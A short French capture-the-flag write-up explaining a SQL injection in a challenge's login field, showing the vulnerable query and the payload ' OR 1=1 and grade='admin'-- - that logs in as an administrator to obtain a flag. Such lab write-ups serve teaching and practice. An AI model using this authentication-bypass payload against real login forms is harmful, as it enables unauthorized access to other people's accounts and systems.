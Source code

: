 # SQLi

Le seul champ injectable est le champs "login". Une injection SQL est présente !

```sql
SELECT uid FROM users WHERE username='{rq_username}' and password='{rq_passwd}';
```

Ainsi si on entre le nom d'utilisateur `jean` et le mot de passe `jeanjean2010`, on obtient la requête SQL suivante :
```sql
SELECT uid FROM users WHERE username='jean' and password='jeanjean2010';
```

Ainsi en insérant `' OR 1=1 and grade='admin'-- -` dans le champs username, on obtient :

```sql
SELECT uid FROM users WHERE username='' OR 1=1 and grade='admin'-- -' and password='jeanjean2010';
```

Cette requête va retourner les utilisateurs administateurs, on est donc connecté avec l'utilisateur Erich Ludendorff qui est administrateur, et on peut accéder à la war-page donnant le 2ème flag !
